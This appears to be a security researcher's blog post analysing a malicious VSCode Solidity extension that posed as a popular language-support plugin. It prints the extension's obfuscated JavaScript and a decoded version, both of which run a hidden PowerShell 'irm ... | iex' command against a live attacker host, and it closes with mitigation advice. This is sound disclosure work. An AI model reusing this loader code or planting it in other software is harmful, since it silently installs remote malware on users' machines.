


About a week ago, I was discussing with a friend the status of hacking in the Web3 space. Being used to the "traditional" hacking and bug bounty world, I was surprised when he started telling me things like `solidity`, `EVM`, `DeFi`, `smart contracts`, and so on. I had no idea what he was talking about, so I decided to do some research.

A few Google searches later, I found out that if I wanted to get into Web3 hacking, I would need to learn about blockchain technology, smart contracts, and the various platforms that support them. I also discovered that there were many bug bounty programs specifically for Web3 projects, which was exciting. So I decided to start with Solidity.

I opened VSCode and headed to the marketplace to install the Solidity extension. Few extensions caught my attention.

- "[Solidity by Juan Blanco](https://marketplace.visualstudio.com/items?itemName=JuanBlanco.solidity)" - with 1.7M downloads
- "[Solidity Language Support](https://marketplace.visualstudio.com/items?itemName=ShowSnowcrypto.SnowShoNo) - with 2.9M downloads



I decided to go with the second one, "Solidity Language Support" by ShowSnowcrypto, because it had more downloads and seemed to be more popular. After installing the extension, I opened a new file and set the language mode to Solidity. No syntax highlighting, no intellisense, no nothing. Just a plain text file.

So...being the "nerd" that I am, I decided to investigate further.

Just as I was trying to figure out what was happening, a Powershell window popped up and immediately closed. I had no idea what it was, but I assumed it was something related to the extension. I checked the output panel in VSCode, but there was nothing there. I then checked the "Problems" tab, but again, there was nothing there.

...shocked, I decided to check the extension's installation folder. I exported the whole extension folder as a zip to analyze it.

Inside the extensions folder, I found a file `src/extension.js`. Opening it, I saw that it was a minified/obfuscated code JavaScript file. I formatted it to make it more readable and started going through the code.

Here is the minified/obfuscated code:

```javascript
const _0x213954 = _0x41e2;
(function (_0x4b4334, _0x2656ab) {
  const _0x1da43d = _0x41e2,
    _0x57e2b6 = _0x4b4334();
  while (!![]) {
    try {
      const _0x18e3ec =
        (parseInt(_0x1da43d(0x1c3)) / 0x1) *
          (-parseInt(_0x1da43d(0x1c1)) / 0x2) +
        (parseInt(_0x1da43d(0x1d1)) / 0x3) *
          (parseInt(_0x1da43d(0x1cc)) / 0x4) +
        parseInt(_0x1da43d(0x1c9)) / 0x5 +
        -parseInt(_0x1da43d(0x1c2)) / 0x6 +
        -parseInt(_0x1da43d(0x1c4)) / 0x7 +
        (-parseInt(_0x1da43d(0x1cd)) / 0x8) *
          (parseInt(_0x1da43d(0x1ca)) / 0x9) +
        (-parseInt(_0x1da43d(0x1d2)) / 0xa) *
          (-parseInt(_0x1da43d(0x1ce)) / 0xb);
      if (_0x18e3ec === _0x2656ab) break;
      else _0x57e2b6["push"](_0x57e2b6["shift"]());
    } catch (_0x4d6972) {
      _0x57e2b6["push"](_0x57e2b6["shift"]());
    }
  }
})(_0x2470, 0x2f80d);
function _0x2470() {
  const _0x2e306f = [
    "child_process",
    "exports",
    "45yepeMH",
    "2941110MJONQC",
    "platform",
    "4vuRIWg",
    "484446KRGyQu",
    "62069ZrsUVa",
    "1882167AjRYWW",
    "Command\x20failed:",
    "warn",
    "PowerShell\x20reported\x20errors:",
    "win32",
    "1191030RHNorV",
    "1455471TySatz",
    "powershell\x20-WindowStyle\x20Hidden\x20-Command\x20\x22irm\x20https://niggboo.com/aaa\x20|\x20iex\x22",
    "79396CwoQFA",
    "8BLexMd",
    "11ucAODX",
  ];
  _0x2470 = function () {
    return _0x2e306f;
  };
  return _0x2470();
}
const { exec } = require(_0x213954(0x1cf));
function _0x41e2(_0x47872a, _0x374aac) {
  const _0x247057 = _0x2470();
  return (
    (_0x41e2 = function (_0x41e2d4, _0x330032) {
      _0x41e2d4 = _0x41e2d4 - 0x1c0;
      let _0x231f39 = _0x247057[_0x41e2d4];
      return _0x231f39;
    }),
    _0x41e2(_0x47872a, _0x374aac)
  );
}
function activate() {
  const _0x5ba756 = _0x213954;
  if (process[_0x5ba756(0x1c0)] !== _0x5ba756(0x1c8)) return;
  setTimeout(() => {
    const _0x2bda8f = _0x5ba756,
      _0x102934 = _0x2bda8f(0x1cb),
      _0x40af61 = { windowsHide: !![] };
    exec(_0x102934, _0x40af61, (_0x5772c8, _0x1ed0b6, _0x24940f) => {
      const _0x573b42 = _0x2bda8f;
      if (_0x5772c8) {
        console["error"](_0x573b42(0x1c5), _0x5772c8);
        return;
      }
      _0x24940f && console[_0x573b42(0x1c6)](_0x573b42(0x1c7), _0x24940f);
    });
  }, 0x7d0);
}
function deactivate() {}
module[_0x213954(0x1d0)] = { activate: activate, deactivate: deactivate };
```

Immediately, I noticed the word `PowerShell` and a URL `https://niggboo.com/aaa`. I knew this was not good. I pasted the URL into [VirusTotal](https://www.virustotal.com/gui/url/c5f34a03ef945b5dbaef77e28766c10264e5a82a3d50f82ff48cba81b0bc9fba) and of all the vendors, only two flagged it as malicious.

I then decided to decode the obfuscated code to see what it was doing.

Here is the decoded code:

```javascript
const { exec } = require("child_process");

function activate() {
  // Only execute on Windows systems
  if (process.platform !== "win32") return;

  // Wait 2 seconds before execution
  setTimeout(() => {
    const maliciousCommand =
      'powershell -WindowStyle Hidden -Command "irm https://niggboo.com/aaa | iex"';
    const options = { windowsHide: true };

    exec(maliciousCommand, options, (error, stdout, stderr) => {
      if (error) {
        console.error("Command failed:", error);
        return;
      }
      if (stderr) {
        console.warn("PowerShell reported errors:", stderr);
      }
    });
  }, 2000);
}

module.exports = { activate, deactivate };
```

What the extension does:

- when extension is activated, it checks if the OS is Windows
- if it is, it waits for 2 seconds and then executes a PowerShell command that downloads and executes a script from `https://niggboo.com/aaa` using `Invoke-RestMethod (irm)` and `Invoke-Expression (iex)`.
- the PowerShell window is hidden during execution.

I then decided to check the URL `https://niggboo.com/aaa` to see what it was hosting.



The script does the following:

- Checks if any software with "ScreenConnect" in its name is installed. If found, it exits.
- It constructs a download URL pointing to `https://niggboo.com/<random>/<random>/`, fetches a malicious MSI installer, saves it into the temp directory with a random name, and executes it silently using `msiexec.exe`.
- It then deletes the downloaded MSI file to cover its tracks.

## Next Steps: Reverse Engineering the MSI

I’ve stopped my analysis at the downloaded MSI payload. [VirusTotal](https://www.virustotal.com/gui/file/290027e4e32cf4983ccaa9811b3090c7397a3711d23e426ab144bec1167c456b/detection)
shows that 21/63 vendors flag it as malicious, but the exact behavior of the MSI is still unknown.

If you’re skilled in reverse engineering (malware analysis, dynamic sandboxing, or static reversing), I’d love for you to take a look and share your findings with the community.

MSI SHA256: 290027e4e32cf4983ccaa9811b3090c7397a3711d23e426ab144bec1167c456b

All the necessary files including the VSIX package of the extension are in this repo for further analysis.
[Github Repo](https://github.com/kagemanjoroge/malicious-vscode-extensions/tree/main/ShowSnowcrypto.SnowShoNo)

## Mitigation

- If you are on Linux or MacOS, you are safe. The extension only executes on Windows.
- If you are on Windows, uninstall the extension immediately.
- Check your system for any unknown software installations, especially anything related to "ScreenConnect".
- Change your passwords and enable 2FA on all your accounts.
- Monitor your crpto wallets for any unauthorized transactions.
- Always vet what you install, verify publisher authenticity, and keep your system monitored.

I have since reported the extension to Microsoft though they are yet to take it down...neither have they responded to my report.

Anyways...happy hacking!

@kagema
